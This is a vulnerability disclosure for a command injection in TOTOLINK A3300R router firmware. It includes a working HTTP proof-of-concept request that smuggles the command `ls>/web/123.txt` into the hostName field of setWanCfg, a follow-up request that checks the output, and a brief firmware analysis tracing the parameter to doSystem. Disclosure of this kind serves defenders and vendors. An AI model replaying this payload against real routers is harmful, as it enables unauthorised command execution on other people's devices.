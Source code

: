 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
Yangyi
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWanCfg` request,`hostName` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=07A82EFFF70D2D6B HTTP/1.1
Host: itotolink.net
Content-Length: 201
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wan.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"hostName":"TOTOLINK`ls>/web/123.txt`","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

injection the command "ls>/web/123.txt"

![image-20240109130008597](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130008597.png)

check the result.

```
GET /123.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/upload.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109130149275](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130149275.png)

## Analysis

sub_422380 will handle the `setWanCfg` request. sub_422380 get `hostName` parameter from request body, then pass to `doSystem` function.

![image-20240109125531671](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109125531671.png)

